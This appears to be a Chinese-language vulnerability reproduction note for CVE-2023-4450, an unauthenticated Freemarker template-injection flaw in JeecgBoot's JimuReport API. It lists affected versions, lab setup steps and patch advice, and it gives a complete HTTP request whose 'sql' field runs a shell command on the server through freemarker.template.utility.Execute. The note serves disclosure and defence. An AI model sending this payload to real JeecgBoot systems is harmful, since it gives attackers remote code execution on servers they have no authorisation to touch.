



# jeecg-boot/积木报表基于SSTI的任意代码执行(CVE-2023-4450)

### 1.1、漏洞描述

JeecgBoot 是一款开源的的低代码开发平台，积木报表是其中的低代码报表组件。

JeecgBoot 受影响版本中由于积木报表 `/jeecg-boot/jmreport/queryFieldBySql` Api接口未进行身份校验，使用` Freemarker `处理用户用户传入的 sql 参数，未经授权的攻击者可发送包含恶意 sql 参数的 http 请求，通过 SSTI 在应用端执行任意代码。

漏洞分析

- [jeect-boot积木报表漏洞rce分析(CVE-2023-4450)](https://xz.aliyun.com/t/13224?time__1311=mqmxnDBD9AqQq405DIYYK0%3D9o8lCqCY4D&alichlgref=https%3A%2F%2Fwww.baidu.com%2Flink%3Furl%3D9RLOEl36EtNcLC0Dgi0hyJSVFcuk79a10ohOehdbN4P6bWkS4zR6nnSXYCXxsLvW%26wd%3D%26eqid%3Ddceaacc0000c2a5e0000000365fa4085#toc-7)

### 1.2、漏洞等级

高危

### 1.3、影响版本

- org.jeecgframework.jimureport:jimureport-spring-boot-starter@(-∞, 1.6.1)
- org.jeecgframework:minidao-spring-boot-starter@[1.6.7, 1.9.2)
- org.jeecgframework.boot:hibernate-re@[2.4.2, 3.5.3)
- JeecgBoot@[3.0, 3.5.3]
- org.jeecgframework:jeewx-api@[1.2.2, 1.5.2)
- org.jeecgframework.boot:codegenerate@[1.3.1, 1.4.4)
- org.jeecgframework.boot:drag-free@[1.0.0, 1.0.2)

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/jeecg-boot/CVE-2023-4450

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://127.0.0.1:8080/jeecg-boot/jmreport/list`即可看到积木报表页面




#### 2、漏洞验证

```bash
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/json
Content-Length: 124
Connection: close

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}
```





### 1.5、修复建议

- 将 org.jeecgframework.boot:hibernate-re 升级至 3.5.3 及以上版本
- 避免 /jeecg-boot/jmreport/queryFieldBySql Api接口对外暴露
- 禁用Freemarker高危的代码执行类，如：freemarker.template.utility.Execute
- 官方已发布补丁：https://github.com/jeecgboot/jeecg-boot/commit/acb48179ab00e167747fa4a3e4fd3b94c78aeda5
- 将 org.jeecgframework:jeewx-api 升级至 1.5.2 及以上版本
- 将 org.jeecgframework.boot:codegenerate 升级至 1.4.4 及以上版本
- 将 org.jeecgframework.boot:drag-free 升级至 1.0.2 及以上版本
- 将 org.jeecgframework.jimureport:jimureport-spring-boot-starter 升级至 1.6.1 及以上版本
- 将 org.jeecgframework:minidao-spring-boot-starter 升级至 1.9.2 及以上版本